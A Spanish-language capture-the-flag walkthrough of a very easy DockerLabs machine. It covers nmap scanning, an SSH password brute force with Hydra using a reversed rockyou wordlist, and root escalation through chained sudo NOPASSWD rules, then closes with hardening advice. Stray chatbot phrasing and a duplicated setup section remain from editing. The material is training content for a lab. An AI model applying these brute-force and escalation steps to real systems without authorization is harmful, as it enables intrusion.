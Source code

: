 Gracias por aclararlo. Aquí tienes el **inicio corregido y mejorado** para que marque claramente que estás comenzando el análisis de una nueva máquina:

---

# 🖥️ Nueva Máquina: **BorazuwarahCTF**  
🔹 **Dificultad:** Muy Fácil  

---

## 📌 Descripción

**BorazuwarahCTF** es una máquina de práctica alojada en **DockerLabs**, ideal para quienes se están iniciando en el **pentesting**. Permite familiarizarse con técnicas básicas como:

- Ataques de fuerza bruta con **Hydra**  
- Extracción de metadatos desde archivos  
- Escalada de privilegios a través de configuraciones de **sudo** mal gestionadas  

![Logo de la máquina](/HedgeHog/Imagenes/Logo.png)

---

## 🧰 Preparativos

Descargamos e iniciamos la máquina vulnerable con el siguiente comando:

```bash
sudo bash auto_deploy.sh hedgehog.tar
```

![Inicio de la máquina](/HedgeHog/Imagenes/Iniciar.jpeg)

---

¿Quieres que este encabezado se repita cada vez que inicies una máquina nueva en tus documentos o videos?

---

## 🚀 Inicio

![Inicio](/HedgeHog/Imagenes/Logo.png)

Primero, descargamos e iniciamos la máquina vulnerable con el comando:

```bash
sudo bash auto_deploy.sh hedgehog.tar
```

![Iniciar máquina](/HedgeHog/Imagenes/Iniciar.jpeg)

---

## 📡 Verificar Conectividad

Hacemos un _ping_ a la IP de la máquina para confirmar que está activa. Usando el **TTL** (_Time To Live_) también podemos inferir el tipo de sistema operativo (Linux o Windows). Nota: estos valores pueden ser modificados.

```bash
ping 172.17.0.2
```

![Ping](/HedgeHog/Imagenes/Ping.jpeg)

---

## 🔍 Reconocimiento de Puertos

Iniciamos con un escaneo completo de puertos utilizando **nmap**:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Gracias a esto, descubrimos que están abiertos los puertos:

- **22 (SSH)**  
- **80 (HTTP)**

![Puertos Abiertos](/HedgeHog/Imagenes/Puerto.jpeg)

Tengo un script para extraer los puertos e IPs del archivo generado por nmap:

```bash
extractPorts allPorts.txt
```

Luego hacemos un escaneo más detallado en los puertos encontrados:

```bash
nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
```

![Servicios detectados](/HedgeHog/Imagenes/Servicios.jpeg)

---

## 🌐 Análisis Web

Accedemos al servicio HTTP y encontramos un posible nombre de usuario para SSH. Confirmamos la tecnología usada en el sitio con:

```bash
whatweb 172.17.0.2
```

Probamos también con **Gobuster** y **Wfuzz** para buscar directorios o subdominios ocultos, pero no se encontró nada relevante.

![Página web](/HedgeHog/Imagenes/Pagina.jpeg)

---

## 🔓 Fuerza Bruta con Hydra

Al no tener éxito con métodos convencionales, intentamos un ataque por fuerza bruta con **Hydra**, pero fue lento, así que decidimos invertir el diccionario `rockyou.txt` para comenzar por las contraseñas menos comunes:

```bash
tac /usr/share/wordlists/rockyou.txt >> /usr/share/wordlists/rockyou_invertido.txt
```

Verificamos que hay espacios no deseados:

```bash
cat /usr/share/wordlists/rockyou_invertido.txt | head
```

Eliminamos los espacios:

```bash
sed -i 's/  //g' /usr/share/wordlists/rockyou_invertido.txt
```

¡Listo para usar con Hydra!

![Hydra ataque](/HedgeHog/Imagenes/Hydra.jpeg)

---

## 🧠 Escalada de Privilegios

Una vez dentro con las credenciales encontradas, analizamos cómo escalar de `tails` a `root`.

### 🔐 Paso 1: Verificar permisos de sudo

```bash
sudo -l
```

Resultado:

```bash
User tails may run the following commands on 04d3ae7efbc6:
    (sonic) NOPASSWD: ALL
```

Esto indica que `tails` puede ejecutar cualquier comando como el usuario `sonic` sin contraseña.

---

### 🔄 Paso 2: Intentar acceder al home de sonic

```bash
cd /home/sonic/
# Resultado: Permission denied
```

---

### 👤 Paso 3: Cambiar a sonic

```bash
sudo -u sonic /bin/bash
```

Ya como sonic, verificamos si también puede usar sudo:

---

### 🔼 Paso 4: Escalar a root desde sonic

```bash
sudo -u root /bin/bash
```

Y finalmente:

```bash
whoami
# Resultado: root
```

¡Acceso root conseguido!

![Escalada de privilegios](/HedgeHog/Imagenes/Privilegio.jpeg)

---

## ❓ ¿Por qué funcionó?

Aunque `tails` no podía ser root directamente, sí podía ejecutar comandos como `sonic`, y **sonic** tenía privilegios sudo sin restricción, lo que permitió encadenar el acceso a `root`.

---

## 🔒 Recomendación de Seguridad

- Evitar configuraciones como `NOPASSWD: ALL` sin una razón clara.
- Auditar el archivo `/etc/sudoers` y aplicar el principio de **mínimos privilegios**.
- Monitorizar el uso de cuentas con acceso sudo.

